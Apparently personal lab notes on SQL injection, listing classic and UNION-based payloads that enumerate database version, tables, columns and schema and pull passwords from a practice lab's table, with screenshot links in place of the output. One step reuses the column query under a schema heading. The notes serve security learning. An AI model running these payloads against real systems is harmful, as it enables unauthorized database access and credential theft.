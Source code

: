 

## SQL Injection Payloads : 

- Classic SQLi Payloads : 

	- **1' OR '1'='1
	- ![[{1E9AFC5D-ABC8-46E3-AD1C-0EB7A4F1B6DF}.png]]

	- **jeremy' union select null,null,null#
	- ![[{B3F99883-71EE-4B4B-AC84-BAD85A9E26EC}.png]]

	- Once you have this : 
		- *You can use `union` to extract information from the DB.

	1. **SQL version : 
		- `jeremy' union select null,null,version()#
		- ![[{97DA6F2F-B0B2-479F-BE77-9EA653AF2F56}.png]]
	2. **Get other table names : 
		- `jeremy' union select null,null,table_name from information_schema.tables#`
		-  ![[{45A3C4FF-CA58-420E-863B-E5DB77489685}.png]]
		- ![[{73A6E7E6-0E6A-41A8-A15C-7BF55B667EC4}.png]]
	3. **Get other column names : 
		- `jeremy' union select null,null,column_name from information_schema.columns#`
		- ![[{1EA249A9-0F9F-48FA-B90D-06A9DEAF433A}.png]]
		- ![[{4938031A-1BB8-42E4-B0C6-3D1C911AA74E}.png]]
	4. **Get other schema names : 
		-  `jeremy' union select null,null,column_name from information_schema.columns#`
		- ![[{B6C0C7AC-B7A1-4482-B80E-CE013D020E82}.png]]
	5. **Other variations of Union based payloads

		- `jeremy' union select null,null,database()#.
		
		- `jeremy' union select null,null,table_name from information_schema.tables WHERE table_schema='bb-labs'#`
			- ![[{D2A8AD43-ED68-4E17-8825-39ACAF1B69C1}.png]]
	6. **Get User password or in general if u want to get information from any tables : 

		- `jeremy' union select null,null,password from injection0x01#`
		- ![[{F7E9C2EE-C0A6-4DE2-8F79-62C5241F0D7D}.png]]
